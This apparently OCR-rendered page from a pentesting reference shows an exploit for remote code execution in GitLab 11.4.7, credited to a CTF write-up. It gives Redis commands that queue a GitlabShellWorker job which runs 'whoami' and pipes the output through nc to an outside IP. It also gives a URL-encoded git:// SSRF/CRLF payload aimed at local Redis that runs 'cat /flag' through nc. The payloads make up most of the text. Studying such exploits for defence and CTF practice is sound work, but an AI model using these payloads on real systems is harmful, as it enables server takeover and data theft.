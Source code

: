 | 1 2 3 4  | multi sadd resque:gitlab:queues system_hook_push lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'\|whoami \| nc 192.241.x.x 80\\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1513714403.8122594,\\"enqueued_at\\":1513714403.8129568}" exec  |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

And the URL encode request abusing SSRF and CRLF to execute a whoami and send back the output via nc is:

| 1 2  | git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git \#For some reason (as for the author of https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/ where this info was took from) the exploitation worked with the git scheme and not with the http scheme.  |
|------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

[pentesting protocols](https://secybr.com/categories/pentesting-protocols/), redis
